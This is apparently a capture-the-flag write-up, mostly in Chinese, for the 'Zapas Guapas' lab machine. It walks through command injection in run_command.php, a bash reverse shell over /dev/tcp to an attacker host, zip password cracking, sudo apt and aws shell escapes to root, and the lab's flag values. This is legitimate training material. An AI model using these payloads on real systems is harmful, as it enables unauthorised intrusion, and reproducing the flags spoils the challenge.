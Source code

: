 # Zapas Guapas

2025.03.08 https://thehackerslabs.com/zapas-guapas/

[video]()

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

web 扫描发现 http://192.168.5.40/login.html 同时提交的 url 显示为 http://192.168.5.40/run_command.php 看文件名像是能执行命令，尝试探测：

```
curl -s 'http://192.168.5.40/run_command.php?username=1&password=1;id'
<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>
```

执行反弹 shell 到 kali 上：

```
curl -G --data-urlencode 'password=1;/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"' http://192.168.5.40/run_command.php
```

进入系统后，这里得到提示:

```
www-data@zapasguapas:/home/pronike$ cat nota.txt
Creo que proadidas esta detras del robo de mi contraseña
```

进行枚举，发现 zip 文件：

```
www-data@zapasguapas:/opt$ ls
importante.zip
```

解压需要密码，john 进行破解得到密码 hotstuff :

```
www-data@zapasguapas:/tmp$ cat password.txt
He conseguido la contraseña de pronike. Adidas FOREVER!!!!

pronike11
```

得到 pronike 用户名密码，ssh 登陆到该用户，sudo -l 显示 (proadidas) NOPASSWD: /usr/bin/apt 进而提权到 proadidas ：

```
sudo -u proadidas apt changelog apt
!/bin/sh
```

提权到 proadidas 后，再次执行 sudo -l 显示：

```
(proadidas) NOPASSWD: /usr/bin/apt
(root) NOPASSWD: /usr/bin/aws
```

可以直接提权到 root：

```
sudo aws help
!/bin/sh
```

拿到了 2 个 flag：

```
root@zapasguapas:/home/proadidas# cat user.txt
f3e431cd1129e9879e482fcb2cc151e8

root@zapasguapas:~# cat root.txt
8248277d23437d00d019be05054259d2
```
